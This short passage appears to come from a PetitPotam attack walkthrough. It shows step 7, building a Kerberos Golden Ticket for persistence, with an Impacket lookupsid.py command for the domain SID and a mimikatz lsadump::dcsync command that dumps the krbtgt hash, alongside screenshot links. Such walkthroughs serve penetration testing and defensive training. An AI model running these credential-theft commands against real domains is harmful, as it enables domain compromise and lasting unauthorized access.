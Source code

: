 ![code-execution-as-administrator](/assets/petitpotam/code-execution-as-administrator.jpg)

## 7. (Optional) Create a Golden Ticket for persistence
Domain SID Lookup: 
```bash
lookupsid.py <DOMAIN_FQDN>/<USERNAME>@<DC_IP>
```

![domain-sid-lookup](/assets/petitpotam/domain-sid-lookup.jpg)

Obtaining the `krbtgt` account's hash: 
```bash
lsadump::dcsync /domain:<DOMAIN_FQDN> /user:krbtgt
```

![krbtgt-hash](/assets/petitpotam/krbtgt-hash.jpg)